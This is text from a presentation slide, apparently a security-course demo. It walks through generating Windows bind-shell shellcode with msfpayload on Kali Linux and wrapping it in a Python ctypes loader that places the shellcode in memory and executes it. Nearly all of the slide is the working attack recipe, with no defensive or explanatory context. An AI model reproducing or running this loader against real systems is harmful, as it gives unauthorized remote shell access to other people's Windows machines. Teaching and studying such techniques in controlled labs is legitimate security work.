

# DEMO
On Kali
msfpayload windows/shell_bind_tcp C > foo
nano foo
Change top to
from ctypes import *
shellcode = (
Change bottom to
);
memorywithshell = create_string_buffer(shellcode, len(shellcode))
shell = cast(memorywithshell, CFUNCTYPE(c_void_p))
shell()